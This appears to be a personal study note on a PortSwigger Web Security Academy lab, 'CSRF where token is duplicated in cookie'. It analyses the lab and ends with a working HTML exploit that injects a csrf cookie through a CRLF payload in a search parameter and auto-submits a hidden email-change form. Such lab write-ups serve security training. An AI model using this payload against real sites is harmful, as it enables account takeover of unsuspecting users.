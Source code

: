 ```yaml
---
tags:
  - PRACTITIONER
Link:
  - "[[CSRF]]"
External Link:
  - https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie
---
```


# CSRF where token is duplicated in cookie
---

- **Info:**
	- Vulnerable parameter - email change functionality
	- Goal - exploit the CSRF vulnerability to change the email address of the victim user
	- creds - `wiener:peter`

-  **Analysis:**
	- In order for CSRF attack to be possible:
		- A relevant action - ***email change functionality***
		- Cookie-based session handling - ***session cookie***
		- No unpredictable request parameters - (satisfied b/c search URL parameter allows user to set cookie)

- ~~**Testing CSRF Tokens:**~~
	1.  Remove CSRF token. and see if application accepts request.
	2. Change the request method from POST to GET.
	3. See if CSRF token is tied to a user session.

- **Testing CSRF Tokens and CSRF cookies:**
	1. Check if the CSRF token is tied to the CSRF cookie
	    - Submit an invalid CSRF Token
	    - Submit a valid CSRF Token from another user
	2. Submit valid CSRF token and cookie from another user
	3. Submit a fake identical CSRF token and cookie

- **In order to exploit this vulnerability, we need to perform 2 things:**
	1. Inject a `csrf` cookie in the user's session (Http Header injection)
	2. Send a CSRF attack to the victim with a known `csrf` token

- **Craft exploit**

```html
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display: none" name="csrf-iframe"></iframe>
        <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST" target="csrf-iframe">
            <input type="hidden" name="email" value="anything@normal-user.net" >
            <input type="hidden" name="csrf" value="fake" >
        </form>
        <img style="display: none;" src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit()">
    </body>
</html>
```

